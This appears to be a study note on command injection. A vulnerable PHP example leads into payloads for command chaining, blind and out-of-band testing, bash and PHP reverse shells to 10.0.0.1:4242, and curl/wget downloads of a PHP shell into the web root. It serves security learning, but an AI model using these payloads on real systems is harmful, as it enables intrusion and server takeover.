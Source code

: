 #CommandInjection  #bash #php 

## What is it?

Command injection is a vulnerability that allows an attacker to manipulate an application to execute arbitrary system commands on the server. This occurs when an application passes unsafe data, often user input, to a system shell.

**A simple example**

A vulnerable web application might take a path from a query parameter and use it to read a file, like so:

```
$file = $_GET['file'];
system("cat /var/www/html/$file");
```

If an attacker uses a payload such as `; ls -la` in the `file` parameter, they can make the application execute an additional command that lists all files in the current directory.

The server then executes the `cat` command and the `ls` command and the attacker receives a list of all files in the current directory.

Command injection can often lead to:
- Remote code execution
- Denial of Service
- Data breach
- Privilege escalation

## Exploitation

Basic command chaining

```
; ls -la
```

Using logic operators

```
&& ls -la
```

Commenting out the rest of a command

```
; ls -la #
```

Using a pipe for command chaining

```
| ls -la
```

Testing for blind injection

```
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

Out-of-band testing

```
& nslookup webhook.site/<id>?`whoami` &
```

Example from lab (can replace `whoami` with whatever command):

```
; whoami; asd
```

So for reverse shell (bash tcp):

```
; /bin/bash -i >& /dev/tcp/10.0.0.1/4242 0>&1; asd
```

And a PHP reverse shell:

```
; php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ;asd

https://website.com && curl 10.0.0.1:4242/rev.php > /var/www/html/rev.php

https://website.com \n wget 10.0.0.1:4242/rev.php
```


---
Basically takes user input and injects it as code.

Example:
- `php -a`
	- `$userInput = 'whoami';
	- `system($userInput);`

Try to avoid `eval` and `system` when coding for an application.
